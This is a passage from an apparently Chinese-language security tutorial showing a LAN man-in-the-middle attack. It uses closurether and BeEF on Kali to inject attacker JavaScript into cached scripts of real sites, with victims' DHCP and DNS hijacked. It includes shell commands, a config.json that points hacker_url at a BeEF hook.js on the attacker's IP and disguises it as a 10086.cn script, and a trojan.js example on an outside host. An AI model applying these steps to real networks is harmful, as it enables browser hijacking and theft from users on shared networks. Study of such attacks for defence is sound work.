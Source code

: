 而替换的脚本为asset目录下的stub.js，stub.js注入外部js关键代码如下图：

![Alt text](http://drops.javaweb.org/uploads/images/07a7681357ea471f44f384d18cae596fe456e140.jpg)

其中`www.etherdream.com/hack/trojan.js`为我们可控的js，上例中该js的内容为

```
alert('xss run: ' + location.href);

```

我们可以通过修改该脚本内容来实现不同的功能。

0x04 实战
=====

此次实战在局域网中结合使用了dhcpstarv,isc-dhcp-server,beef以及closurether。攻击机使用了kali2.0。

**1.开启beef**

```
root@kali:~# cd /usr/share/beef-xss/
root@kali:/usr/share/beef-xss# ./beef

```

**2.配置closurether**

获取最新的缓存列表

```
root@kali:~# cd /usr/local/lib/node_modules/closurether/tool/cache-sniffer
root@kali:/usr/local/lib/node_modules/closurether/tool/cache-sniffer#  phantomjs sniffer.js

```

可以通过修改url.txt的内容来指定网站，此次测试过程中url中包含126以及360几个网站。 配置config.json文件如下:

```
{
        "hacker_url": "http://192.168.1.108:3000/hook.js",
        "inject_url": "http://10086.cn/js10086/201306301200.js",
        "debug": false,
        "dump": false,
        "dumpPath": "./dump/"
}

```

其中`hacker_url`为我们的js地址，此处为beef的js地址，`inject_url`为伪装的js地址。

运行closurether：

```
root@kali:~# closurether
[SYS] local ip: 192.168.1.108
[DNS] running 0.0.0.0:53
[WEB] listening :::80
[WEB] listening :::443

```
